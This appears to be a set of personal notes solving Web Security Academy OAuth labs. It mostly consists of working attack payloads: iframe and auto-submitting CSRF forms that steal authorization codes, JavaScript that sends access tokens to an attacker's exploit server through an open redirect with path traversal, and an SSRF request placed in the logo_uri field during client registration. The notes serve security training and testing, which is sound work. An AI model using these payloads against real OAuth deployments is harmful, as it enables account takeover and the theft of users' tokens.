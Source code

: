 ```
Oath Implicit POST you can change mail and just authenticate as that user


Browse on https://oath/.well-known/openid-configuration to see config file
-> locate registration encdpoint -> POST /reg (confirm you can register)
-> Find users can specify logo_uri on other request GET /client/id/logo
-> use in the POST /reg other field logo_uri with SSRF link /admin
-> paste client id on /client/id/logo -> SSRF completed


No CSRF token protection:
1. Oauth linking option, automatically logs you in, capture social logging linking, copy URL and drop
Send to Victim
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
Now if you log out and log in using social media profile you are instantly logged as administrator

2. Hijack Redirect URI
Gereate CSRF POC of /auth?clientid=[...] and change redirect uri to your exploit server
Use the token recieved to log in with /oauth-callback?code=STOLEN

3. Hijack Via Open Redirect
Find Open redirect /post/next?path=exploit-server
Confirm the redirection:
https://oauth-0af4001104ece39e84d339950265009a.oauth-server.net/auth?client_id=cmhgvh5osg557j25uajyh&redirect_uri=https://0a3100e204c2e37084bc3b3d00a20002.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a5500d0048ce37284bf3a0a0106009f.exploit-server.net/&response_type=token&nonce=-1315320397&scope=openid%20profile%20email

Change Values in the PoC to retrieve the token in /exploit:
<script>
if (!document.location.hash){
window.location="https://oauth-0af4001104ece39e84d339950265009a.oauth-server.net/auth?client_id=cmhgvh5osg557j25uajyh&redirect_uri=https://0a3100e204c2e37084bc3b3d00a20002.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a5500d0048ce37284bf3a0a0106009f.exploit-server.net/exploit&response_type=token&nonce=-1315320397&scope=openid%20profile%20email"
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>

```
##### Capture OAuth link 
And send it in an iframe to make the victim perform the ouathflow. Then login with social media, it will load the victim user.
`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`

##### Open registration
Notice registration of a user being made and logo_uri being used
```
POST /reg HTTP/1.1 
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net 
Content-Type: application/json 

{ "redirect_uris" : [ "https://example.com" ], "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN" }
```
##### hijacking via redirect_uri
Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.

Load in the exploit server the payload and send to leak the code generated with CSRF POC of burp
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://oauth-0afd008a04bf7575834367e902220069.oauth-server.net/auth">
      <input type="hidden" name="client&#95;id" value="apbrisws6akg4x5jd0640" />
      <input type="hidden" name="redirect&#95;uri" value="https://exploit-0a6b00a4043175da8300687b01c80094.exploit-server.net/" />
      <input type="hidden" name="response&#95;type" value="code" />
      <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
No login with the code in:
GET /oauth-callback?code=nwCa06DxlsV3J34Y-BHm--GuKM_2pW3jHL-HLa8ioGs
Copy URL in original session and delete carlos


##### Stealing OAuth tokens via open redirection:
Poc to perform an open redirect found, we are using a path traversal found in oauth along side with the open redirection of post/next site, then appending if found the access token to the request.
```js
<script>
if (!document.location.hash){
window.location="https://oauth-0ad300af0450eb0781bbfff3022500b2.oauth-server.net/auth?client_id=ag2rq0tbm8hchcusqw9gk&redirect_uri=https://0ace00ad0408eb1c82e501ce00c50007.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ad900fd04efeb54826e007301e800f9.exploit-server.net/exploit&response_type=token&nonce=1870905122&scope=openid%20profile%20email"
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>
```
Take the token and use it to access /me and display the admin info

